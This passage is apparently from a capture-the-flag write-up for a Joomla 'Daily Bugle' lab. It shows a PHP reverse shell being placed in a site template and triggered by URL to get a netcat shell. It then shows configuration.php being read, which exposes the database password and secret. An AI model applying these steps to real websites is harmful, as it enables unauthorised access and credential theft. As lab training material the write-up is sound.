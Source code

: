![Untitled 7](https://github.com/user-attachments/assets/544c52de-dd0a-4a60-92ba-541b5dfac6a9)

- Now in the site Protostar, we can see the list file .php and we have idea that is create the file shell format .php run it and catch the listen through netcat.
- We can use the available reverse shell in the attack machine  /usr/share/webshells/php/php-reverse-shell.php (Reverse shell PentestMonky) .

![Untitled 8](https://github.com/user-attachments/assets/a4807f7a-5a73-4f5d-bdd1-682f5f9a4870)

- Save it and run URL: `http://<IP-Target>/templates/protostar/shell.php`

![Untitled 9](https://github.com/user-attachments/assets/91e2d669-83e2-404a-b3b2-52c21b060741)

- Now we gain into the web server Apache and find more information to get SSH service.

![Untitled 10](https://github.com/user-attachments/assets/bbc601ca-42e6-48ce-8e62-8706db5d2631)

—> We find the username that maybe can use to login ssh ‘jjameson’

- `cd var/www/html`

![Untitled 11](https://github.com/user-attachments/assets/147133c5-1929-474a-8595-b94eec6ba707)

—> We have the potential file “configuration.php”. Check it !!!!!

```bash
sh-4.2$ cat configuration.php
cat configuration.php
<?php
class JConfig {
	public $offline = '0';
	public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
	public $display_offline_message = '1';
	public $offline_image = '';
	public $sitename = 'The Daily Bugle';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = '20';
	public $access = '1';
	public $debug = '0';
	public $debug_lang = '0';
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'root';
	public $password = 'nv5uz9r3ZEDzVjNu'; ---> We guess that is the password which we will need.
	public $db = 'joomla';
	public $dbprefix = 'fb9j5_';
	public $live_site = '';
	public $secret = 'UAMBRWzHO3oFPmVC';
	public $gzip = '0';
	public $error_reporting = 'default';
	public $helpurl = 'https://help.joomla.org/proxy/index.php?keyref=Help{major}{minor}:{keyref}';
	public $ftp_host = '127.0.0.1';
	public $ftp_port = '21';
	public $ftp_user = '';
	public $ftp_pass = '';
	public $ftp_root = '';
	public $ftp_enable = '0';
	public $offset = 'UTC';
	public $mailonline = '1';
	public $mailer = 'mail';
	public $mailfrom = 'jonah@tryhackme.com';
	public $fromname = 'The Daily Bugle';
	public $sendmail = '/usr/sbin/sendmail';
	public $smtpauth = '0';
```